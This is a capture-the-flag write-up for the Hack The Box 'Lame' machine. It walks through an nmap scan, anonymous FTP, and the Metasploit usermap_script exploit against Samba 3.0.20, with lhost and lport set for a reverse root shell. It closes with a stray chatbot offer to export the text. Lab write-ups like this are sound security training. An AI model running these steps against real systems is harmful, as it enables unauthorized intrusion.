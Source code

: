 # Hack The Box - Lame Write-Up

You can access the machine [here]((https://www.exploit-db.com/exploits/16320)) on Hack The Box.

- **Target IP:** `10.10.10.3`

---

## 🌐 Initial Scanning

1. **Ping the target to check if it's alive:**
   ```bash
   ping 10.10.10.3
````

2. **Performed an Nmap scan:**

   ```bash
   nmap -sT -Pn -A 10.10.10.3
   ```

   **Nmap Results:**

   * **FTP (21/tcp)**: vsftpd 2.3.4 (Anonymous login allowed)
   * **SSH (22/tcp)**: OpenSSH 4.7p1
   * **SMB (139/tcp)**: Samba 3.0.20-Debian

---

## 🔎 Enumeration

### FTP

* Anonymous login was allowed:

  ```bash
  ftp 10.10.10.3
  ```

  * Logged in as `ftp`, but no useful files were found.

### SMB

* Samba version `3.0.20` was identified.
* Searched for known vulnerabilities and found it was **vulnerable to remote code execution**.

---

## 💥 Exploitation

* Found a matching exploit on [Exploit-DB](https://www.exploit-db.com/) and confirmed it was available in **Metasploit**.

* Launched Metasploit and used the `usermap_script` exploit:

  ```bash
  use exploit/multi/samba/usermap_script
  set RHOST "htb vm ip"
  set lhost "htbvpn ip"
  set lport 4444 #any port
  run
  ```

* Gained a **root shell** successfully.

---

## 🏁 Post Exploitation

* Verified root access with:

  ```bash
  id
  ```

  * Output: `root`

* Retrieved the user and root flag.

---

**Status:** ✅ Root access obtained via Samba RCE vulnerability.

```

Let me know if you want this exported as a PDF or if you’d like to make it into a general HTB exploit report template!
```
